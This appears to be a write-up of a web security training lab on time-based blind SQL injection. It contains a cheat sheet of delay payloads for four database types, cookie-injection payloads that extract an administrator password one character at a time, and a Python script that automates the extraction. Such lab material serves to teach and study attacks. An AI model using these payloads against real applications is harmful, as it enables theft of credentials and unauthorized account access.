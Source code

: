 # Blind SQL Injection with time delays and information retrieval

# Review

In some of the preceding examples, we've seen how you can exploit the way applications fail to properly handle database errors. But what if the application catches these errors and handles them gracefully? Triggering a database error when the injected SQL query is executed no longer causes any difference in the application's response, so the preceding technique of inducing conditional errors will not work.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering time delays conditionally, depending on an injected condition. Because SQL queries are generally processed synchronously by the application, delaying the execution of a SQL query will also delay the HTTP response. This allows us to infer the truth of the injected condition based on the time taken before the HTTP response is received.

The techniques for triggering a time delay are highly specific to the type of database being used. On Microsoft SQL Server, input like the following can be used to test a condition and trigger a delay depending on whether the expression is true:

```
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

The first of these inputs will not trigger a delay, because the condition `1=2` is false. The second input will trigger a delay of 10 seconds, because the condition `1=1` is true.

Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:

```
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

### Cheat sheet

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

| Oracle | dbms_pipe.receive_message(('a'),10) |
| --- | --- |
| Microsoft | WAITFOR DELAY '0:0:10' |
| PostgreSQL | SELECT pg_sleep(10) |
| MySQL | SELECT SLEEP(10) |

You can test a single boolean condition and trigger a time delay if the condition is true.

| Oracle | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual |
| --- | --- |
| Microsoft | IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10' |
| PostgreSQL | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END |
| MySQL | SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a') |

# Lab Instruction

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

# Lab Walkthrough

### Verify database type

Modify the request as:

```
Cookie: TrackingId=none'||pg_sleep(10)--; session=ajlei4zlhDtl54fg149spJ4wwsAEZ0iu
```

Verify that the ****************response**************** is delayed 10 seconds → The target database is **********************PostgreSQL**********************

Let’s concatenate the query with more complex condition

```
Cookie: TrackingId=none'%3BSELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--;
```

The `%3B` is decoded by `URL` as a semi-colon `;` to avoid separating the query

Verify that the application takes 10 second for the responding → The query is a valid syntax

### Verify username is `administrator`

Modify the query as:

```
Cookie: TrackingId=none'%3BSELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

Verify it is true

### Find password length

```
Cookie: TrackingId=none'%3BSELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

Increase the number of password length `1` until the application responses immediately

This step could be done manually or using BurpSuite ********Intruder********:

Send the current request to tab ****************Intruder**************** by pressing `Ctrl + I`. Then add the `§` between the `1` :

```
Cookie: TrackingId=none'%3BSELECT CASE WHEN (username='administrator' AND LENGTH(password)>§1§) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

Switch to `Resource pool` tab → Select `Create new resource pool` → Enter the name for the pool and **********check********** the box of `Maximum concurrent requests` → Set it value as `1`

![Untitled](Blind%20SQL%20Injection%20with%20time%20delays%20and%20information%20images/Untitled.png)

Click `Start attack` → Click on the `Columns` drop-down menu → Click `Response received` (This will represent the number of milliseconds the application took to respond)

![Untitled](Blind%20SQL%20Injection%20with%20time%20delays%20and%20information%20images/Untitled%201.png)

Once the attack is done → Check out the result and focus on the request which has the `response received` value is smaller than 10000 → At that request’s payload, the application responded immediately → It was a false condition

![Untitled](Blind%20SQL%20Injection%20with%20time%20delays%20and%20information%20images/Untitled%202.png)

The request which has payload `20`  → The password’s length is not smaller than `20` → It is equal to `20` → The password has ****20**** characters long

### Explore the password

Modify the request as:

```
Cookie: TrackingId=none'%3BSELECT CASE WHEN (username='administrator' AND SUBSTRING(password,§1§,1)='§a§') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

Choose the attack type to `Cluster Bomb` → Go to ****************Payloads**************** tab → Set the payload set 1 (`§1§`) to a N**umber list** from **1** to ****20**** (as the password length) → Set the payload set **2** (`§a§`) to a **********************Simple list********************** which contains lower-case alphanumeric characters

![Untitled](Blind%20SQL%20Injection%20with%20time%20delays%20and%20information%20images/Untitled%203.png)

![Untitled](Blind%20SQL%20Injection%20with%20time%20delays%20and%20information%20images/Untitled%204.png)

Click ************************Start attack************************ and wait for awhile → Combine all of the **characters in payloads** of the ****************requests**************** that took more than 10000 millisecond for ********************responding******************** 

Use the password to login as `adminsitrator` and solve the lab

Or you can use this [source code](Blind_SQL_Injection_with_Time_delay_and_Conditional.py) to solve this manually by replacing the position of the password characters

```python
import requests

s = requests.Session()

url = "https://0aa7005904e463c481bb4d7c00370004.web-security-academy.net/login" # Change this
# original cookie
cookie = {"TrackingId":""}
# payload
p = "none'%3BSELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)='@') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--"

wordlist = 'qwertyuiopasdfghjklzxcvbnm0987654321'

for char in wordlist:
	new_p = p.replace('@', char)
	cookie['TrackingId'] = new_p
	print(f"Send request with payload {char}")
	res = s.get(url,cookies=cookie)
	if res.elapsed.total_seconds() > 10:
		print(f"[+] Character {char} found!")
		with open('password.txt', 'a') as f:
			f.write(char)
			print("Char has been written")
		break
print("Increase the password position for the next request")
```